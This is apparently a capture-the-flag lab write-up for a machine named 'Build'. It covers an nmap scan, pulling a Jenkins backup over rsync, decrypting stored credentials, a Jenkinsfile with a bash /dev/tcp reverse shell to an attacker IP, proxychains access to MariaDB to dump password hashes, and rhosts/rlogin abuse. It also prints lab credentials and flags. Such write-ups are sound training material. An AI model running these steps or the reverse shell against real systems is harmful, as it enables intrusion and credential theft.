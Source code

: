 ```yaml
---
title: "Build"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```


**Scan** : 

```sh
22/tcp   open     ssh             OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 472173e26b96cdf91311af40c84dd67f (ECDSA)
|_  256 2b5ebaf372d3b309df25412909f47bf5 (ED25519)
53/tcp   open     domain          PowerDNS
| dns-nsid:
|   NSID: pdns (70646e73)
|_  id.server: pdns
512/tcp  open     exec            netkit-rsh rexecd
513/tcp  open     login?
514/tcp  open     shell           Netkit rshd
873/tcp  open     rsync           (protocol version 31)
3000/tcp open     ppp?
| fingerprint-strings:
|   GenericLines, Help, RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=403cb3e3906068db; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=GYHXs7TQdbOzsKcKny30oR8By-Q6MTcyMTI0MjAwODM2MTMwNzAzNg; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 17 Jul 2024 18:46:48 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2J1aWxkLnZsOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9idWlsZC52bDozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIiwic2l6ZXMiOiI1MTJ
|   HTTPOptions:
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=a275bfd19692210f; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=7aCFYOoWpGjTrCHOLcNbUFcmXws6MTcyMTI0MjAxMzU0Mjg2OTg2Nw; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 17 Jul 2024 18:46:53 GMT
|_    Content-Length: 0
3306/tcp filtered mysql
8081/tcp filtered blackice-icecap


```

Enumerating shared folder: 

```sh
nmap -sV --script "rsync-list-modules" -p 873 $target
```

Or

```sh
nc -vn $target 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
```

Download File : 

```sh
rsync -av rsync://10.10.71.22/backups/jenkins.tar.gz .
```

Interesting file in Users/Admin_/config.xml: 

```sh
<hudson.security.HudsonPrivateSecurityRealm_-Details><passwordHash>#jbcrypt:$2a$10$PaXdGyit8MLC9CEPjgw15.6x0GOIZNAk2gYUTdaOB6NN/9CPcvYrG
</passwordHash>
</hudson.security.HudsonPrivateSecurityRealm_-Details>
```

Password cracking : 
```sh
hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
```
too long ... 

SO i used a tool : 
```sh

/go/bin❯ ./go-decrypt-jenkins -d ../../Downloads/jenkins_configuration/
Searching for files in ../../Downloads/jenkins_configuration/
id: e4048737-7acd-46fd-86ef-a3db45683d4f
username: buildadm
password: Git1234!
usernameSecret: false

id: admin
name: admin
passwordHash: #jbcrypt:$2a$10$PaXdGyit8MLC9CEPjgw15.6x0GOIZNAk2gYUTdaOB6NN/9CPcvYrG
```

- Then modify the Jenkinsfile  and the add a reverse shell : 
```sh
pipeline {
    agent any

    stages {
        stage('Pwned') {
            steps {
                sh '''
                    bash -c 'bash -i >& /dev/tcp/10.8.3.12/4242 0>&1'
                '''
            }
        }
    }
}
```

- Then got the flag in /root/user.txt:
```flag
VL{bf760d7c76f89f4e07bf4d461ee1c3c2}
```

- If we remember we got two filtered ports : `3306 & 8081` . So we going to do a proxychains to access to them because of the firewall .
```sh
export TERM=xterm-256color
```

- Access to MariaDB and list content : 
```sh
proxychains -q mysql -h 10.10.125.92 -u root -P 3306
SHOW DATABASE;
SHOW tables from powerdnsadmin;
SHOW columns FROM powerdnsadmin.user;
SELECT * FROM powerdnsadmin.user;
```

- Got some credential : 
```sh
1 | admin    | $2b$12$s1hK0o7YNkJGfu5poWx.0u1WLqKQIgJOXWjjXz7Ze3Uw5Sc2.hsEq | 

winston
```
- More information : 
![[Build_lab.png]]

- We found Rhosts file with intern and admin so we add them to the powerDNSadmin
with our ip address: 
![[Build_lab2.png]]

- Then we can connect with rlogin : 
```sh
VL{fef779871842b0975faac0a289181ab2}
```

